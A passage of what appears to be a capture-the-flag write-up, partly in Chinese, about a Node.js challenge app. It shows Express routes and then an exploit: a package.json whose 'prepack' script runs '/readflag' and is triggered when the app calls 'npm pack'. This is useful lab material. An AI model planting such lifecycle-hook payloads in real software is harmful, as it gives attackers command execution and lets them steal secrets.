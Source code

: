 ```js
router.get("/KillDependencies",(req,res) => {
    if(!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    if (!req.session.is_admin){
        return res.render("dashboardIndex",{message: "You are not admin",session_user:"Hello,"+req.session.user});
    }
    console.log("Killing dependencies...");
    cp.exec("ps -ef | grep npm | grep -v grep | awk '{print $2}' | xargs kill -9",(err,stdout,stderr) => {
        if (err){
            return res.render("dashboardIndex",{message: "Kill installing dependencies error",session_user:"Hello,"+req.session.user});
        }else {
            return res.render("dashboardIndex",{message: "Kill installing dependencies success",session_user:"Hello,"+req.session.user});
        }
    });

});

// Logout
router.get("/Logout",(req,res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    req.session.is_login = 0;
    req.session.is_admin = 0;
    req.session.user = "";
    return res.redirect("/user/LoginIndex");
})

module.exports = router;
```

污染是不能污染了

`SetDependencies`设置`scripts`的`prepack`

`PackDependencies`执行`npm pack`会执行`prepack`里的命令

```json
{
    "name": "app-example",
    "version": "1.0.0",
    "description": "Example app for the Node.js Getting Started guide.",
    "author": "anonymous",
    "scripts":{
        "prepack": "echo `/readflag` > /temp/key"
    },
    "license": "MIT",
    "dependencies": {
    }
}
```
